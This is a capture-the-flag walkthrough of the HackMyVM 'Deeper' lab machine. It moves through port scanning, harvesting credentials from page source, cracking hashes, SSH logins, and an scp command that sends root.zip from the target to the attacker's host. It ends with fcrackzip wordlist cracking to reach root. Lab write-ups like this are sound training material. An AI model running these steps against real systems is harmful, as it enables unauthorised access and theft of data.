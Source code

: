 ```yaml
---
categories: [HackMyVM]
tags: [PrivEsc, enum, fcrackzip, scp]
img_path: Vulnhub-Files/img/
image:
  path: Deeper/Untitled.png
  alt: HackMyVM Machine ⚔️
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#scp</kbd>&nbsp;&nbsp;<kbd>#fcrackzip</kbd>&nbsp;&nbsp;<kbd>#enum</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Deeper/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.82   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:08 IST
Nmap scan report for 10.0.2.82
Host is up (0.00083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 37:d1:6f:b5:a4:96:e8:78:18:c7:77:d0:3e:20:4e:55 (ECDSA)
|_  256 cf:5d:90:f3:37:3f:a4:e2:ba:d5:d7:25:c6:4a:a0:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Deeper
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:58:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

While checking port 80 →

![Untitled](Deeper/Untitled%202.png)

I checked the source code and got the `PATH` →

![Untitled](Deeper/Untitled%203.png)

After going in this path I got the credentials →

![Untitled](Deeper/Untitled%204.png)

and Password through scrolling further more →

![Untitled](Deeper/Untitled%205.png)

Now I decoded these encodings/hashes and got the results for SSH Login →

I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for cracking of these hashes →

![Untitled](Deeper/Untitled%206.png)

After cracking password I logged in as user Alice .

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh alice@10.0.2.82                  
The authenticity of host '10.0.2.82 (10.0.2.82)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.82' (ED25519) to the list of known hosts.
alice@10.0.2.82 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ ls -al
total 32
drwxr--r-- 3 alice alice 4096 Aug 26 00:14 .
drwxr-xr-x 4 root  root  4096 Aug 25 20:07 ..
lrwxrwxrwx 1 alice alice    9 Aug 25 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25 17:58 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25 17:58 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25 20:43 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26 00:14 .local
-rw-r--r-- 1 alice alice  807 Aug 25 17:58 .profile
-rw-r--r-- 1 alice alice   33 Aug 26 00:14 user.txt
alice@deeper:~$
```
{: .nolineno}

Now I got the encoded password for bob user from `.bob.txt` file .

I Logged in as bob user →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh bob@10.0.2.84      
The authenticity of host '10.0.2.84 (10.0.2.84)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.84' (ED25519) to the list of known hosts.
bob@10.0.2.84 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:05:57 2023 from 192.168.100.103
bob@deeper:~$ ls -al
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26 00:22 .
drwxr-xr-x 4 root root 4096 Aug 25 20:07 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25 20:44 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25 20:17 .local
-rw-r--r-- 1 bob  bob   807 Aug 25 20:09 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26 00:21 root.zip
bob@deeper:~$ file root.zip 
root.zip: Zip archive data, at least v1.0 to extract, compression method=store
bob@deeper:~$ unzip 
-bash: unzip: command not found
bob@deeper:~$
```
{: .nolineno}

I have to transfer this `root.zip` file to the attacker machine so for that I used the command `scp` that id used to transfer files.

```bash
bob@deeper:~$ scp root.zip kali@10.0.2.77:~/Downloads/HackMyVM/Deeper/root.zip
kali@10.0.2.77's password: 
root.zip                      100%  215    82.9KB/s   00:00    
bob@deeper:~$
```
{: .nolineno}

 

Now this file is password protected to I used another Tool called as `fcrackzip` to crack this zip file password →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob
```
{: .nolineno}

Now I extracted the password of root user from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```
{: .nolineno}

Now I am root !!

```bash
bob@deeper:~$ su root
Password: 
root@deeper:/home/bob# cd ~
root@deeper:~# ls -al
total 32
drwx------  4 root root 4096 Aug 26 00:48 .
drwxr-xr-x 18 root root 4096 Aug 25 17:55 ..
lrwxrwxrwx  1 root root    9 Aug 25 18:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25 23:57 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25 19:53 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26 00:48 root.txt
drwx------  2 root root 4096 Aug 25 17:52 .ssh
root@deeper:~# whoami
root
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@deeper:~# hostname
deeper
root@deeper:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:33:4f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.84/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 440sec preferred_lft 440sec
    inet6 fe80::a00:27ff:fe33:4f51/64 scope link 
       valid_lft forever preferred_lft forever
root@deeper:~# cat root.txt
FLAG----FLAG----FLAG----FLAG
root@deeper:~#
```
{: .nolineno}



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }